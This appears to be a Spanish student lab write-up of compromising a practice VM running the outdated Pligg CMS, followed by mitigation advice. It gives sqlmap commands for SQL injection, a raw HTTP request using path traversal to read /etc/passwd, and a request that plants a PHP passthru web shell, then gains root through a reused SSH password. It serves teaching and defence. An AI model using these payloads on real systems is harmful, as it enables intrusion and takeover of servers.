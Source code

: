 ##### Ej 2
Para comenzar el segundo ejericicio lo primero que hicimos fue correr nmap sobre nuestra red local para ver que ip habia tomado la maquina virtual. Para esto usamos `sudo nmap -sn 192.168.0.0/24`, correrlo con sudo nos da la ventaja de tambien listar los hostnames de cada ip y asi logramos conseguir aquel que decia "Oracle VirtualBox virtual NIC". Una vez que conocimos la ip de la maquina virtual hicimos un escaneo de todos los puertos con `nmap -p0-65535 192.168.0.208`, este tipo de escaneo busca todos los puertos tcp en el rango completo. Luego de correr el escaneo descubrimos que solo hay 4 puertos tcp aparentemente abiertos: 

 - Un servidor ftp en el puerto 21
 - Un servidor ssh en el puerto 22
 - Un servidor http en el puerto 80 y 8000
Tanto el servidor ftp como el servidor ssh tenian usuarios y contraseñas asi que los dejamos de lado por ahora. El puerto 8000 simplemente nos daba un mensaje de forbidden (403) asi que nos enfocamos en el 80.
		En el puerto 80 encontramos una pagina web con estructura de carpeta en donde habia 3 rutas. Una de ellas era nasa que nos llevo a una pagina que parecia nunca parar de cargar. Otra era pligg que nos llevo a un cms que parecia estar funcionando bien. La tercera, "important" fue en la primera que nos enfocamos ya que adentro habia otra carpeta llamada ajaxfilemanager en donde habia varios scripts de php que se ejecutaban (nos parecio importante ya que si logramos subir un archivo a este directorio el servidor lo iba a ejecutar). Tambien vimos que el archivo ajax_preview.php estaba filtrando informacion sobre la ruta dentro del servidor donde se encontraba esta carpeta, en particular, ahora sabemos que se encuentra en "/var/www/html/important/ajaxfilemanager". Fuera de esto intentamos usar algunos de los archivos de upload y download para subir o descargar archivos sin exito, el ajaxfilemanager.php simplemente tiraba un error al no encontrar la carpeta uploaded asi que dejamos esta rama de lado por el momento.
Cuando nos pusimos a investigar pligg descubrimos que era un cms que dejo de ser popular hace años, los cual llevaba a la posibilidad que con las pocas actualizaciones hubiese huecos de seguridad. Efectivamente buscando en exploit-db encontramos dos vulnerabilidades que nos interesaron. Una era de path traversal y remote code execution pero requeria credenciales de administrador, mientras que la otra era una sql-injection que no requeria credenciales. Para realizar la sql-injection utilizamos sqlmap con el siguiente comando  `sqlmap -u "http://192.168.0.208/pligg/story.php?title=secret-war&reply=1&comment_id=1" --threads 4`
lo cual nos dijo que el sitio era vulnerable a ataques del tipo boolean based y time-based. Luego corrimos `sqlmap -u "url-Vulnerable" --privileges` para analizar los privilegios que tenia el usuario que estaba manejando la db. Ahi fue donde obtuvimos que el usuario "pepe" solo tenia permisos de "USAGE" es decir basicamente no tenia muchos permisos, no podiamos descargar ni subir archivos con sqlmap. Lo que hicimos despues entonces fue  analizar las tablas presentes en base de datos con `sqlmap -u "url_Vulnerable" --tables --threads 4`. Esto nos dio todas tablas presentes en la base de datos (los resultados que fuimos encontrando se encuentran en sqlmap_log) y nos enfocamos en dumpear la llamada "pligg_users". De ahi obtuvimos el hash "1bf490bb34c2383ac91e67505741b9cdad3b9bee87e62ba98" del usuario administrador "bobama@nsa.gov.us". Buscando en internet descubrimos que los primeros 9 caracteres de lo que obtuvimos correspondian a la sal y los 40 restantes eran un hash del tipo sha1. Luego de romper el hash (con mucho esfuerzo y intentos fallidos durante dias) obtuvimos la password "obamaobamaobama" del admin.
A la hora de intentar la inyeccion de codigo tuvimos muchos problemas con el tema de que la vm parecia rota en la parte del admin. Notamos que la mayoria de los problemas parecian venir de que la vm parecia buscar recursos en la ip "172.18.1.68" en vez de la correcta. Esto lo solucionamos en kali agregando una regla redirijese el trafico salienta a esa ip hacia la correcta. En nuestro caso el comando qu utilizamos para hacer esto fue: `sudo iptables -t nat -A OUTPUT -p tcp -d 172.18.1.68 -j DNAT --to-destination 192.168.0.208`. Esto hizo que las paginas del admin por fin cargaran correctamente y nos saco un problema que estabamos teniendo a la hora de hacer code execution y path traversal donde se quejaba de la configuracion de chmod.
Una vez que solucionamos eso logramos hacer el primer ataque que nos permitio leer archivos dentro del sistema. Haciendo la siguiente request pudimos leer el archivo /etc/passwd:

> POST /pligg/admin/admin_editor.php HTTP/1.1
Host: 192.168.0.208
Host:  192.168.0.208
Connection:  keep-alive
Cache-Control:  max-age=0
Origin:  http://192.168.0.208
Upgrade-Insecure-Requests:  1
DNT:  1
Content-Type:  application/x-www-form-urlencoded
User-Agent:  Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.75 Safari/537.36
Accept:  text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer:  http://172.18.1.68/admin/admin_editor.php
Accept-Encoding:  gzip, deflate
Accept-Language:  es-ES,es;q=0.9
Cookie:  PHPSESSID=9i252j0dcil78vt6n4r4mjr8u3; mnm_user=barack; mnm_key=YmFyYWNrOjIyb1cxRUtSMmYvWDY6NTFmNjk4ZDE2YjVmYTk4MWY3NjdkOWIxYWFhN2UxZjA%3D
the_file=../../../../../../etc/passwd&open=Open

(Los contenido obtenidos estan en el archivo con el mismo nombre)
Lo siguiente que probamos fue cargar alguna especie de reverse shell con el mismo metodo del template editor cambiando alguno de los archivos de pligg. La  request que utilizamos fue:

> POST /pligg/admin/admin_editor.php HTTP/1.1
Host: 192.168.0.208
Host:  192.168.0.208
Connection:  keep-alive
Cache-Control:  max-age=0
Origin:  http://192.168.0.208
Upgrade-Insecure-Requests:  1
DNT:  1
Content-Type:  application/x-www-form-urlencoded
User-Agent:  Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.75 Safari/537.36
Accept:  text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer:  http://172.18.1.68/admin/admin_editor.php
Accept-Encoding:  gzip, deflate
Accept-Language:  es-ES,es;q=0.9
Cookie:  PHPSESSID=9i252j0dcil78vt6n4r4mjr8u3; mnm_user=barack; mnm_key=YmFyYWNrOjIyb1cxRUtSMmYvWDY6NTFmNjk4ZDE2YjVmYTk4MWY3NjdkOWIxYWFhN2UxZjA%3D
the_file2=../../../../../../var/www/html/pligg/error_404.php&save=Save+Changes&updatedfile=<?php passthru($_GET['x']); ?>&isempty=1

Esto nos permitio ejecutar comandos cuando accediamos a la ruta http://172.18.1.68/pligg/error_404.php?x= y poniendo el comando como argumento. Asi descubrimos que el usuario que ejecutaba los comandos era "www-data". Este usuario es el tipico que suele usarse y no suele tener muchos permisos con el fin de mitigar este tipo de ataques.
Pero volviendo para atras notamos una cosa en el contenido de /etc/passwd, vimos que existia un usuario con el nombre obama asi que probamos acceder por ssh a la vm con el usuario: "obama" y la contraseña igual a la de pligg: "obamaobamaobama". Esto nos permitio entrar a la vm y con un simple `sudo -i` y poniendo la contraseña de obama vimos que el mismo pertencia al grupo de sudo lo cual nos da acceso total al sistema, somos root.

B)
Como mitigaciones hay varias cosas que deberian hacerse. Primero que todo hay que notar que pligg parece no ser mantenido desde 2014 - 2015, esto claramente lo marca como una mala decision para utilizarlo como cms ya que lo mas probable es que tenga vulnerabilidades conocidas. Luego del problema de pligg, el leakeo de informacion en ajaxfilemanager nos ayudo a la hora de editar archivos vitales cuando hicimos la inyeccion de codigo (ya que sabiamos que la ruta era "/var/www/html/pligg", es verdad que esa era la ruta mas probable pero tener la confirmacion no ayuda). Nosotros no le encontramos ninguna funcionalidad al ajaxfilemanager ya que parecia no funcionar asi que recomendariamos directamente sacarlo del servidor ya que potencialmente podria contener errores y si no tiene uso no sirve. 

Nos parece importante notar que si el usuario no hubiese tenido la misma contraseña en pligg y en su usuario del servidor nunca hubiesemos conseguido el acceso total. Esto es claramente un error, el usuario deberia haber prohibido cualquier tipo de acceso por contraseña al servidor y haberse manejado exclusivamente mediante un sistema de clave publica y clave privada que es lo que se suele hacer. Esto es mucho mas seguro ya que para entrar al servidor uno primero deberia lograr obtener la clave privada de el usuario desde su pc lo cual hace el problema exponencialmente mas dificil. Y tambien evita que se usen herramientas como hydra para intentar forzar la contraseña. Agregar letras, simbolos o simplemente palabras mas random a la contraseña hubiese hecho mas dificil crackear el hash ya que herramientas como John the ripper utilizan los nombre de usuario a la hora de probar hashes. 
Otra cosa que se podria hacer es cambiar el puerto del servidor ssh y ftp, es verdad que nosotros escaneamos todo el rango, pero mantenerlos en los puertos por default nos permitio saber de que servicios se trataba y probarlos despues. Obviamente que se puede obtener el servicio que corre igualmente, pero es mejor no mostrar vulnerabilidad a simple vista ya que alguien podria estar simplemente buscando puertos 22 abiertos a lo largo del internet. Tambien notar que la version de openssh no esta actualizada y tiene vulnerabilidades conocidas de enumeracion de usuarios y denegacion de servicio.

